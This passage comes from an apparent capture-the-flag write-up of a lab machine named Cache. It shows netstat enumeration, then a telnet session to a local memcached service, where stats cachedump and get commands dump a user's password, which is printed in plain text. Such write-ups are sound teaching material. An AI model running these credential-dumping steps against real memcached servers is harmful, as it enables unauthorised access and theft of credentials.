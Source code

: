 ![User Shell](/assets/img/posts/cache/user.png)

# Root Shell
## Elevating to *luffy*
While enumerating the target, it was identified that the target is running few services, internally, not identified on 
the nmap scan. They were identified using **netstat** as `netstat -antup`.
```shell 
ash@cache:~$ netstat -antup 
netstat -antup 
(Not all processes could be identified, non-owned process info 
 will not be shown, you would have to be root to see it all.) 
Active Internet connections (servers and established) 
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:11211         127.0.0.1:44846         TIME_WAIT   -          
---SNIP---
```
The one that seemed exciting was port **11211**, as this runs the service **memcached** 
*(relate this to the machine's name- Cache, if you could)*. Memcached is known for retrieving the cached contents 
through *telnet*.
> Detailed information on dumping cached data through memcached can be found on **Penetration Testing on memcached
> server[^f5]**

The instructions from [^f5] were followed by initiating a *telnet* connection locally to port 11211 and then enumerating 
`stats`, `stats slabs`, `stats items` and `stats cachedump 1 0` in that order. In the final step the user and password
information were dumped with `get user` and `get passwd` respectively. The credentials were identified to be
**luffy:0n3_p1ec3** belonging to the user **luffy**. The relevant portions of these credentials retrieval through
memcached is shown below.
```shell 
ash@cache:~$ telnet localhost 11211 
telnet localhost 11211 
Trying ::1... 
Trying 127.0.0.1... 
Connected to localhost. 
Escape character is '^]'. 
stats 
```